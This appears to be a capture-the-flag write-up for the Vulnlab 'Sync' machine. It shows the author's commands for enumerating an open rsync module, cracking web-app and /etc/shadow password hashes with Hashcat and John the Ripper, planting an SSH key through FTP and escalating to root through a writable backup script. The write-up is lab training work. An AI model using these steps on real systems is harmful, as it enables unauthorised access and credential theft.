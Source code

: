 +++
title = 'Vulnlab :: Sync Writeup'

image = 'cover.jpg'

date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++

![pwned-sync](image-17.png)

## Enumeration

### Nmap Scan

I started with a standard scan using Nmap:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


## Rsync

I noticed that the machine exposes an rsync service. I enumerated available modules:

```sh
rsync -av --list-only rsync://10.10.95.205/
```
![rsync](image.png)

I found a module named `httpd`:

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```

The rsync service contains an application backup. I downloaded it with:

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```


## Application Analysis

### PHP

![index-php](image-1.png)

Reviewing the PHP code, I found a secret and the logic used to generate password hashes.

### Database

![db](image-2.png)

The database contains password hashes for two users.

### Hashcat

![hashes](image-3.png)

Using Hashcat, I managed to crack the password hash for the user `triss`.

![hascat modes](image-4.png)

![cracked](image-5.png)

## FTP

### FTP Access

SSH login is not possible with the cracked password, as key-based authentication is enforced. However, I was able to log in to the FTP server.

![ftp](image-7.png)

### SSH Key Upload

The FTP server's root directory is the home directory of the user `triss`, which allows me to upload my public SSH key.

![home](image-16.png)

```sh
cp ./.ssh/id_rsa.pub /workspace/
cat id_rsa.pub > authorized_keys
```

Now I can log in via SSH using my private key:

```sh
ssh triss@10.10.95.205 -i id_rsa
```


## Privilege Escalation

### User Flag

There is no user flag in `triss`'s home directory. However, due to a reference to "The Witcher" by Andrzej Sapkowski in the challenge, I guessed that the password for the user `jennifer` is the same as for `triss`. This allowed me to obtain the user flag.

### /backup Directory

After running LinPEAS, I discovered the `/backup` directory.

![backups](image-11.png)

### John the Ripper

I found backup copies of `/etc/passwd` and `/etc/shadow`. I used John the Ripper to crack the password for the user `sa`:

```sh
unshadow passwd shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```

### backup.sh

I discovered a backup script owned by the user `sa`

![linpeas](image-14.png)

```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After modifying the script and executing it, I was able to escalate privileges and gain root access.

```sh
/bin/bash -p
```
---

> "Wiem, za rzadko się modlę, może kiedyś dorosnę \
> Gorzkie słowa jak ogień rzucają na twarzy cień \
> Proszę, daj mi melodię, niech zapełni sto wspomnień \
> Moje wersy jak fobie będą zawsze obok mnie..." ~Inee
